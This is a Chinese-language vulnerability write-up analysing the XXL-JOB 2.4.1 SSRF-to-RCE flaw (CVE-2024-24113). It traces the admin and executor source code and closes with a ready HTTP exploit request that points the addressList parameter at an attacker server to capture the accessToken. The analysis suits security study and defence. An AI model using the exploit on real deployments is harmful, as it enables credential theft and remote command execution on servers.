










# xxl-job_2.4.1ssrf导致Rce漏洞代码分析(CVE-2024-24113)-先知社区

> **来源**: https://xz.aliyun.com/news/17400  
> **文章ID**: 17400

---

# 漏洞介绍

这个漏洞是通过利用ssrf获取用户的 `accessToken` 进行的任意命令执行漏洞，命令执行部分与之前的默认`accessToken`的部分基本一致。

# RCE漏洞代码分析

首先，我们要清楚为什么获取到了`accessToken`就可以进行RCE，这离不开以下三个问题：

1. `accessToken`是什么
2. 是通过什么方式进行命令执行的
3. 命令执行代码分析

## accessToken是什么

`accessToken`是XXL-JOB用于校验调度中心（Admin）与执行器（Executor）之间通信合法性的凭证。

## 是通过什么方式进行命令执行的

执行器是我们执行代码的平台，也就是说如果我们获取了`accessToken`，我们就可以伪造成校验调度中心，使执行器执行指定代码，这个Rce点在之前的`accessToken` 默认身份绕过有提到，在2.4.1版本代码基本上没有进行更改，所以如果我们获取到了`accessToken`的值也是可以进行任意命令执行的。

## 2.4.1版本任意命令执行代码分析

可以参考一下以前版本的rce漏洞的分析：<https://xz.aliyun.com/news/12414>

之前提到了，在2.4.1版本中，漏洞代码与之前版本的变化不大，也是通过/run路由进行执行，所以这里我并不进行过多分析。

我们可以进入xxl-job-core中进行查看目标路由。

```
private Object process(HttpMethod httpMethod, String uri, String requestData, String accessTokenReq) {
            // valid
            if (HttpMethod.POST != httpMethod) {
                return new ReturnT<String>(ReturnT.FAIL_CODE, "invalid request, HttpMethod not support.");
            }
            if (uri == null || uri.trim().length() == 0) {
                return new ReturnT<String>(ReturnT.FAIL_CODE, "invalid request, uri-mapping empty.");
            }
            if (accessToken != null
                    && accessToken.trim().length() > 0
                    && !accessToken.equals(accessTokenReq)) {
                return new ReturnT<String>(ReturnT.FAIL_CODE, "The access token is wrong.");
            }

            // services mapping
            try {
                switch (uri) {
                    case "/beat":
                        return executorBiz.beat();
                    case "/idleBeat":
                        IdleBeatParam idleBeatParam = GsonTool.fromJson(requestData, IdleBeatParam.class);
                        return executorBiz.idleBeat(idleBeatParam);
                    case "/run":
                        TriggerParam triggerParam = GsonTool.fromJson(requestData, TriggerParam.class);
                        return executorBiz.run(triggerParam);
                    case "/kill":
                        KillParam killParam = GsonTool.fromJson(requestData, KillParam.class);
                        return executorBiz.kill(killParam);
                    case "/log":
                        LogParam logParam = GsonTool.fromJson(requestData, LogParam.class);
                        return executorBiz.log(logParam);
                    default:
                        return new ReturnT<String>(ReturnT.FAIL_CODE, "invalid request, uri-mapping(" + uri + ") not found.");
                }
```

这一段代码与之前漏洞版本一样，首先是判断`accessToken`是否正确，然后进行路由判断，因为这里调用是run路由就直接去看他的实现方法。

进入`com.xxl.job.core.biz.impl.ExecutorBizImpl`中，可以看到他的run方法。



然后主要是他的命令执行方法。

位于`com.xxl.job.core.handler.impl`的ScriptJobHandler类中

```
        if (!glueType.isScript()) {
            XxlJobHelper.handleFail("glueType["+ glueType +"] invalid.");
            return;
        }

        // cmd
        String cmd = glueType.getCmd();

        // make script file
        String scriptFileName = XxlJobFileAppender.getGlueSrcPath()
                .concat(File.separator)
                .concat(String.valueOf(jobId))
                .concat("_")
                .concat(String.valueOf(glueUpdatetime))
                .concat(glueType.getSuffix());
        File scriptFile = new File(scriptFileName);
        if (!scriptFile.exists()) {
            ScriptUtil.markScriptFile(scriptFileName, gluesource);
        }
```

这段代码的核心逻辑为

1. 检查 `glueType` 是否为脚本类型。
2. 获取脚本执行命令和构建文件名。
3. 检查指定路径下的脚本文件是否存在，如果不存在，则创建这个脚本文件。

从而可以执行命令。

# SSRF漏洞代码分析

既然已经知道了只要拥有`accessToken` 的值就可以进行任意命令执行，那么就来分析一下获取`accessToken` 的ssrf代码。

## 用户验证

首先，我们知道在`xxl-job-admin`中可以向core发送指定内容，从而使core端执行特定代码，那么这个请求是哪个路由所发出的呢，通过对执行进行抓包可以发现是/xxl-job-admin/jobinfo/trigger。



查看对应代码，位于`com.xxl.job.admin.controller.JobInfoController`中。

```
    @RequestMapping("/trigger")
    @ResponseBody
    public ReturnT<String> triggerJob(HttpServletRequest request, int id, String executorParam, String addressList) {
        // login user
        XxlJobUser loginUser = (XxlJobUser) request.getAttribute(LoginService.LOGIN_IDENTITY_KEY);
        // trigger
        return xxlJobService.trigger(loginUser, id, executorParam, addressList);
    }
```

进入`getAttribute`中，这个接口有挺多实现的，可以挨个去瞅瞅或者直接调试，最终发现是使用的`org.apache.catalina.connector.ReqestFacade`中定义的getAttribute方法。



```
    public Object getAttribute(String name) {
        this.checkFacade();
        return this.request.getAttribute(name);
    }
```

因为checkFacade没有参数，应该不是验证的方法，就直接跳过去了。

然后，继续跟进到`org.apache.catalina.connector.Request`中的getAttribute方法。



最终返回了用户相关的值，所以这就是一个验证用户的函数。



## ssrf关键代码

接下来就是实现ssrf的关键代码了，造成这个漏洞的主要参数为`addressList`。

首先跟进`com.xxl.job.admin.service.impl.XxlJobServiceImpl`中的trigger方法。



这个方法前面都是鉴权，还需要继续跟进到`com.xxl.job.admin.core.thread.JobTriggerPoolHelper`中的trigger方法。



这个方法又继续在进行调用，继续跟进，因为太长了就直接跳到最后一步了，最终走到了`com.xxl.job.admin.core.trigger.XxlJobTrigger`中进行了参数的设置，可以看到这里用我们上传的参数覆盖了原来的addressList。



可以看到在到这一步时，已经有返回包了。



但是还并没有像指定服务器发送请求。

跟进最后一个方法`processTrigger`，这个方法是用于对目标服务器发送请求的方法，也就是造成ssrf的方法。

```
        TriggerParam triggerParam = new TriggerParam();
        triggerParam.setJobId(jobInfo.getId());
        triggerParam.setExecutorHandler(jobInfo.getExecutorHandler());
        triggerParam.setExecutorParams(jobInfo.getExecutorParam());
        triggerParam.setExecutorBlockStrategy(jobInfo.getExecutorBlockStrategy());
        triggerParam.setExecutorTimeout(jobInfo.getExecutorTimeout());
        triggerParam.setLogId(jobLog.getId());
        triggerParam.setLogDateTime(jobLog.getTriggerTime().getTime());
        triggerParam.setGlueType(jobInfo.getGlueType());
        triggerParam.setGlueSource(jobInfo.getGlueSource());
        triggerParam.setGlueUpdatetime(jobInfo.getGlueUpdatetime().getTime());
        triggerParam.setBroadcastIndex(index);
        triggerParam.setBroadcastTotal(total);

        // 3、init address
        String address = null;
        ReturnT<String> routeAddressResult = null;
        if (group.getRegistryList()!=null && !group.getRegistryList().isEmpty()) {
            if (ExecutorRouteStrategyEnum.SHARDING_BROADCAST == executorRouteStrategyEnum) {
                if (index < group.getRegistryList().size()) {
                    address = group.getRegistryList().get(index);
                } else {
                    address = group.getRegistryList().get(0);
                }
            } else {
                routeAddressResult = executorRouteStrategyEnum.getRouter().route(triggerParam, group.getRegistryList());
                if (routeAddressResult.getCode() == ReturnT.SUCCESS_CODE) {
                    address = routeAddressResult.getContent();
                }
            }
        } else {
            routeAddressResult = new ReturnT<String>(ReturnT.FAIL_CODE, I18nUtil.getString("jobconf_trigger_address_empty"));
        }

        // 4、trigger remote executor
        ReturnT<String> triggerResult = null;
        if (address != null) {
            triggerResult = runExecutor(triggerParam, address);
        }
```

可以看到上面代码对指定参数进行了构造，并且到目前为止，所以代码都没有对我们输入的地址进行校验与核查。

随后利用`runExecutor` 向选定的执行器地址发送HTTP请求，触发任务执行。

从而使我们的服务器拿到http请求包，其中包含进行RCE所需的参数`accessToken`，从而造成Rce漏洞。



# exp如下

```
POST /xxl-job-admin/jobinfo/trigger HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 59
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/xxl-job-admin/jobinfo
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=85b8fh88fc4idmgumrpm2vjf65; XXL_JOB_LOGIN_IDENTITY=7b226964223a322c22757365726e616d65223a2274657374222c2270617373776f7264223a223831646339626462353264303464633230303336646264383331336564303535222c22726f6c65223a302c227065726d697373696f6e223a2232227d
Connection: close

id=3&executorParam=1&addressList=http://vps:端口
```
